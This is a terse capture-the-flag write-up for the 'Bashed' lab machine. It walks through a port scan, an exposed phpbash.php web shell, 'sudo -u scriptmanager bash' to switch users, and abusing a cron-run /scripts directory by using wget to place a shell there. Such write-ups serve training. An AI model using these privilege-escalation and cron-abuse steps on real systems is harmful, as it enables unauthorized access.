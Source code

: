 # Bashed Write-Up

Easy

Tags:
`Easy`
`External`
`Enumeration`
`Apache`
`Penetration Tester Level 1`
`OS Command Injection`
`A03:2021-Injection`
`Web Site Structure Discovery`
`Sudo Exploitation`
`Code Execution`
`Cronjob Abuse`

## Intro

1. Use dirb scan directory
2. `/scripts` be executed every minute

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Scan directory

```
http://10.10.10.68/dev/phpbash.php
```

## Privilege Escalation

Run stable shell from `phpbash.php`

### List user's privileges or check a specific command

```
sudo -l
```

Change user

```
sudo -u scriptmanager bash
```

### Exploring directories

`/scripts` dir is owned by the `scriptmanager`

```
scriptmanager@bashed:/$ ls -la
```

```
drwxrwxr--   2 scriptmanager scriptmanager  4096 May 10 00:17 scripts
```

### Find cron job

all scripts in `/scripts` are executed every minute ???

`wget` shell to `/scripts`